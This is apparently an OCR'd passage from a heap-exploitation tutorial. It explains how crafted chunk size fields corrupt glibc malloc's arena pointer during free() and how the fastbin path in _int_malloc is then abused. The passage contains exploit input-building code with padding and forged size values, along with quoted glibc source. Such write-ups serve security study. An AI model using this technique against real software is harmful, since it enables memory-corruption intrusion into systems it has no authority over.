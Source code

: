    1156 bytes / 4 = 289
   (289 + 2) << 3 = 2328 = 0x918h -> 0x919 (PREV_INUSE)
                           ------

You have to check again the "size" field of the next chunk, whose address
is calculated from the value that we obtain a moment ago.

You can continue your exploit:

[-----]

        for (i = 0; i < 1020; i++)
                putchar(0x41);
        fwrite("\x19\x09\x00\x00", 4, 1, stdout); /* free(2) ptr2 size */

        .... /* Later */

        for (i = 0; i < (2000 / 4); i++)
                fwrite("\x10\x00\x00\x00", 4, 1, stdout);

[-----]

At the end of the second free (): arena_key = p2.

This value will be used by the call to malloc () setting it as the "arena"
structure to use.

    arena_get(ar_ptr, bytes);
    if(!ar_ptr)
      return 0;
    victim = _int_malloc(ar_ptr, bytes);

Again, let's go to see, to be more intuitive, the magic code of
"_int_malloc()" function:

    .....

    if ((unsigned long)(nb) <= (unsigned long)(av->max_fast)) {
      long int idx = fastbin_index(nb);
      fb = &(av->fastbins[idx]);
      if ( (victim = *fb) != 0) {
        if (fastbin_index (chunksize (victim)) != idx)
          malloc_printerr (check_action, "malloc(): memory"
            " corruption (fast)", chunk2mem (victim));
        *fb = victim->fd;
        check_remalloced_chunk(av, victim, nb);
        return chunk2mem(victim);
      }

    .....

"av" is now our arena, which starts at the beginning of the second chunk
liberated "p2", then it is clear that "av->max_fast" will be equal to the
"size" field of the chunk. In order to pass the first integrity check, we
have to ensure that the size requested by the "malloc()" call is less than
that value, as Phantasmal said, otherwise you can try the technique
described in 4.2.1.
